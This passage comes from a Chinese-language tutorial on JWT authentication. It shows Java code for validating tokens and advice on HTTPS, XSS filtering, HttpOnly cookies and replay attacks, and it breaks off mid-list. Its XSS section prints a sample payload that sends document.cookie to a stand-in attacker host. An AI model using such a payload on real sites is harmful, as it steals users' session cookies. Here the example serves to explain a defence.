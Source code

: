 ```
}
```
**解码和验证Token码**
```
import javax.xml.bind.DatatypeConverter;
import io.jsonwebtoken.Jwts;
import io.jsonwebtoken.Claims;
 
//Sample method to validate and read the JWT
private void parseJWT(String jwt) {
//This line will throw an exception if it is not a signed JWS (as expected)
Claims claims = Jwts.parser()        
   .setSigningKey(DatatypeConverter.parseBase64Binary(apiKey.getSecret()))
   .parseClaimsJws(jwt).getBody();
System.out.println("ID: " + claims.getId());
System.out.println("Subject: " + claims.getSubject());
System.out.println("Issuer: " + claims.getIssuer());
System.out.println("Expiration: " + claims.getExpiration());
}

```
##基于JWT的Token认证的安全问题
###确保验证过程的安全性
如何保证用户名/密码验证过程的安全性；因为在验证过程中，需要用户输入用户名和密码，在这一过程中，用户名、密码等敏感信息需要在网络中传输。因此，在这个过程中建议采用HTTPS，通过SSL加密传输，以确保通道的安全性。

###如何防范XSS Attacks
浏览器可以做很多事情，这也给浏览器端的安全带来很多隐患，最常见的如：XSS攻击：跨站脚本攻击(Cross Site Scripting)；如果有个页面的输入框中允许输入任何信息，且没有做防范措施，如果我们输入下面这段代码：
```
<img src="x" /> a.src='https://hackmeplz.com/yourCookies.png/?cookies=’
+document.cookie;return a}())"
```
这段代码会盗取你域中的所有cookie信息，并发送到 hackmeplz.com；那么我们如何来防范这种攻击呢？
- **XSS攻击代码过滤**
移除任何会导致浏览器做非预期执行的代码，这个可以采用一些库来实现（如：js下的js-xss，JAVA下的XSS HTMLFilter，PHP下的TWIG）；如果你是将用户提交的字符串存储到数据库的话（也针对SQL注入攻击），你需要在前端和服务端分别做过滤；
- **采用HTTP-Only Cookies**
通过设置Cookie的参数： HttpOnly; Secure 来防止通过JavaScript 来访问Cookie；
如何在Java中设置cookie是HttpOnly呢？
Servlet 2.5 API 不支持 cookie设置HttpOnly
http://docs.oracle.com/cd/E17802_01/products/products/servlet/2.5/docs/servlet-2_5-mr2/
建议升级Tomcat7.0，它已经实现了Servlet3.0
http://tomcat.apache.org/tomcat-7.0-doc/servletapi/javax/servlet/http/Cookie.html
或者通过这样来设置：

```
//设置cookie
response.addHeader("Set-Cookie", "uid=112; Path=/; HttpOnly");

//设置多个cookie
response.addHeader("Set-Cookie", "uid=112; Path=/; HttpOnly");
response.addHeader("Set-Cookie", "timeout=30; Path=/test; HttpOnly");

//设置https的cookie
response.addHeader("Set-Cookie", "uid=112; Path=/; Secure; HttpOnly");

```
在实际使用中，我们可以使FireCookie查看我们设置的Cookie 是否是HttpOnly；
###如何防范Replay Attacks
所谓重放攻击就是攻击者发送一个目的主机已接收过的包，来达到欺骗系统的目的，主要用于身份认证过程。比如在浏览器端通过用户名/密码验证获得签名的Token被木马窃取。即使用户登出了系统，黑客还是可以利用窃取的Token模拟正常请求，而服务器端对此完全不知道，以为JWT机制是无状态的。
    针对这种情况，有几种常用做法可以用作参考：
    1、时间戳 +共享秘钥
    这种方案，客户端和服务端都需要知道：